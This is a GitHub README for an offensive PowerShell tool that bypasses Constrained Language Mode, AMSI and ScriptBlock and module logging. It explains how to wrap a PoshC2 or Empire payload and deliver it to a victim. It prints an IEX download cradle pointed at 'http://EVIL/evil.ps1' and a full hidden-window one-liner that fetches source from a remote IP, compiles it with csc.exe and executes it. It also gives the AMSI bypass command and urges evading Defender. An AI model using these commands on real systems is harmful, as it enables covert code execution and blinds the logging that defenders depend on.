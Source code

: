 ﻿# PoSH_Bypass

PoSHBypass is a payload and console proof of concept that allows an attatcker or for that matter a legitimate user to bypass PowerShell's 'Constrianed Language Mode, AMSI and ScriptBlock and Module logging'.
The bulk of this concept is the combination of 3 separate pieces of research, I've stuck these 3 elements together as my first attempt at non 'Hello World!' C# project.
* Constrained Language Mode is credited to James Forshaw and is detailed here in his blog series surrounding Windows 10 S and Device Guard - https://tyranidslair.blogspot.com/2017/08/copy-of-device-guard-on-windows-10-s.html
* PowerShell ScriptBlock and Module logging is creditied to Lee Christensen - https://github.com/leechristensen/Random/blob/master/CSharp/DisablePSLogging.cs
* AMSI bypass Matt Graeber @mattifestation - https://twitter.com/mattifestation/status/735261176745988096?lang=en

## PoSH_Bypass_Payload

In order to make use of this payload all that is required is a newly generated Base64 encoded payload form PoshC2 or Empire or which ever framework you chose, I've tested it with PoschC2 and Empire. Just take the encoded section from the appropriate payload and paste it straight into the string Payload section of the code.
Now just have Visual Studio compile the payload.

How you get this payload to your victim is upto you, but remember you are dealing with constrained language mode, so your standard download cradle's utilising
```powershell
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")
```
Won't work
Something like this could help out though;

```powershell
$ua = 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-GB)';$uri = 'http://192.168.32.143:8000/sourcecode.txt';$IESettings = Get-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings';if ($IESettings.ProxyEnable -eq 1){$Proxy = "http://$(($IESettings.ProxyServer.Split(';') | ? {$_ -match 'ttp='}) -replace '.*=')";$request = Invoke-WebRequest -uri $uri -UserAgent $ua -ProxyUseDefaultCredentials -Proxy $proxy} else {$request = Invoke-WebRequest -uri $uri -UserAgent $ua };$request.Content | Out-File $env:userprofile\AppData\Local\Temp\sourcecode.txt;Start-Process -FilePath "$env:SystemRoot\Microsoft.NET\Framework\v4.0.30319\csc.exe" -ArgumentList "/unsafe /out:$env:userprofile\AppData\Local\Temp\Program.exe $env:userprofile\AppData\Local\Temp\sourcecode.txt" -WindowStyle Hidden -Wait;Start-Process -FilePath "$env:userprofile\AppData\Local\Temp\Program.exe" -WindowStyle Hidden
```

The above uses Invoke-Webrequest and is web proxy aware, it downloads, compiles and runs the payload.

## PoSh_Bypass

Just compile this code and its ready to use, drop it on the box and run it, a new PowerShell window will open up and you'll be able to use it just as normal, without Constrained Mode or ScriptBlock logging, one thing I haven't sorted out is automatic AMSI bypass, (down to my lack of C# knowlegde no doubt :;). So to counter AMSI the first command you should enter is the bypass command given my Matt Graeber.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

There's a good chance this might actually get picked up by Defender, so you'll have to be creative to avoid the detection, but thats part of the fun.
